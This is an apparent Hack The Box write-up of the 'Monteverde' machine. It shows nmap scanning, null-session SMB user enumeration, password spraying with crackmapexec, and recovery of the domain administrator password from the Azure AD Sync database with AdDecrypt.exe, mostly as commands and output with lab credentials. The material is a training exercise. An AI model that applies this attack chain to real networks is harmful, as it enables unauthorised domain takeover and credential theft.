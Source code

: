 ```yaml
---
title: Monteverde - Medium HTB
date: 2023-12-27 10:11:53 +/-0800
categories: [writeup, HackTheBox]
writeup: :title
permalink: /monteverde
tags: [AD, Azure]     # TAG names should always be lowercase
---
```


![PP](assets/Monteverde/PP.png)

## **Scanning :**

lets start with an nmap scan to discoverd open ports and services : 

```bash
> nmap -sC -sV -T4 -sS 10.10.10.172 -Pn

53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-26 15:26:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-26T15:26:34
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

Add the domain and the FQDN to your `/etc/hosts` file : 

```bash
echo "10.10.10.172 MEGABANK.LOCAL MONTEVERDE.MEGABANK.LOCAL" >> /etc/hosts
```

## **Enumerate smb:**

We can try to acces at the smb using null session : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p ""

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\:
```

it work we can acces to the smb service without creds, lets try to enumerate domain users also with CME : 

```bash
> crackmapexec smb 10.10.10.172 -u "" -p "" --users

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.10.10.172    445    MONTEVERDE       [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated domain user(s)
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\AAD_987d7f2f57d2               Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\mhope                          
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\SABatchJobs                    
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-ata                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-bexec                      
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\svc-netapp                     
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\dgalanos                       
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\roleary                        
SMB         10.10.10.172    445    MONTEVERDE       MEGABANK.LOCAL\smorgan
```

Creat a user list : 

```bash
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata 
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

## **Password spraying :**

If we try password spraying we found valid creds : 

```bash
> crackmapexec smb 10.10.10.172 -u "user.txt" -p "user.txt" --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Re try to list the smb share : 

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" --shares

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

## **Foothlod:**

use CME to list all accessible files in a json file.

```bash
> crackmapexec smb 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs" -M spider_plus
```

On .json create by CME, we can see that there is an xml file on the machine in the user$ share will see this:

```bash
"azure_uploads": {},
    "users$": {
        "mhope/azure.xml": {
            "atime_epoch": "2020-01-03 14:41:18",
            "ctime_epoch": "2020-01-03 14:39:53",
            "mtime_epoch": "2020-01-03 15:59:24",
            "size": "1.18 KB"
        }
    }
```

Use smbclient to connect on the share : 

```bash
> smbclient //10.10.10.172/users$ -U 'SABatchJobs%SABatchJobs'
```

Download the file on your local machine and open it. We can see that the file contains a password but without user we can try to find the password with our list of users.

```bash
> crackmapexec smb 10.10.10.172 -u user.txt -p password.txt --continue-on-succes | grep '[+]'

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```

## Privileges Escalation **:**

To automate enumeration, we can launch winpeas.exe. Use evil-winrm to upload it on the target:

```bash
#evil-winrm shell
uplaod winpeas.exe

# launch winpeas
.\winpeas.exe
```

There are a lot of interesting things notably Azure softwares.

```bash
╔══════════╣ Installed Applications --Via Program Files/Uninstall registry--
╚ Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\internet explorer
    C:\Program Files\Microsoft Analysis Services
    C:\Program Files\Microsoft Azure Active Directory Connect
    C:\Program Files\Microsoft Azure Active Directory Connect Upgrader
    C:\Program Files\Microsoft Azure AD Connect Health Sync Agent
    C:\Program Files\Microsoft Azure AD Sync
```

After a lot of research I saw that the software "Azure AD Sync" can be operated voicie a blog that explains well the operating process: https://blog.xpnsec.com/azuread-connect-for-redteam/

So I look for a tool that would allow me to do that and I came across this https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/. First go download the binary and then do the following steps.

*PS when you upload the tool don’t forget to upload also the dll file :

```bash
#move to the good directory
> cd 'C:\Program Files\Microsoft Azure AD Sync\bin'

#Execute the tool with the full path and the '-FullSQL' option
> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

Test the credential with CME: 

```bash
> crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!'

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (admin)
```

Yes we are Domain admin ! Get the flag 

```bash
crackmapexec smb 10.10.10.172 -u 'Administrator' -p 'd0m@in4dminyeah!' -x 'more C:\Users\Administrator\Desktop\root.txt'
```

MONTEVERDE  rooted GG ! it was my first experience in a Azure pentesting environment and its fun 😁

### **Credit for root :**

exploit azure connect : https://blog.xpnsec.com/azuread-connect-for-redteam/
